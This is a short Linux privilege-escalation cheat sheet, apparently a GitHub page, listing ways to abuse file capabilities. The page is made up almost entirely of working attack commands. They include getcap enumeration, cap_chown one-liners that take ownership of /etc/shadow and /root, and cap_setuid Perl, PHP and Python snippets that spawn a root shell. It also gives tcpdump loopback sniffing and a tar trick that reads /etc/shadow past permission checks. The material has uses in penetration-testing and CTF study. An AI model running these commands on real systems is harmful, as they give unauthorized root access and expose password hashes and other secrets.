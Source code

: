 To find files that are set capabilities.

```sh
getcap -r / 2>/dev/null
```

### cap_chown

First we need to check the current user id by executing 'id' command.

```bash
id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then execute the following command to modify the file owner to the current user.  
Replace the attribute numbers with the current user id.

```bash
# Python
python -c 'import os;os.chown("/etc/shadow",33,33)'

# Ruby
ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/etc/shadow")'
# directories also can be modified.
ruby -e 'require "fileutils"; FileUtils.chown(33, 33, "/root")'
```

### cap_setuid

```bash
# Perl
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'

# PHP
php -r "posix_setuid(0); system('$CMD');"

# Python
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### cap_net_raw

```bash
# Tcpdump - we can sniff sensitive information by running tcpdump for a while.
tcpdump -i lo -A
```

### cap_dac_read_search

Bypass file read permission checks and directory read and execute permission checks.

```bash
# Tar (https://gtfobins.github.io/gtfobins/tar/)
LFILE=/etc/shadow
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```
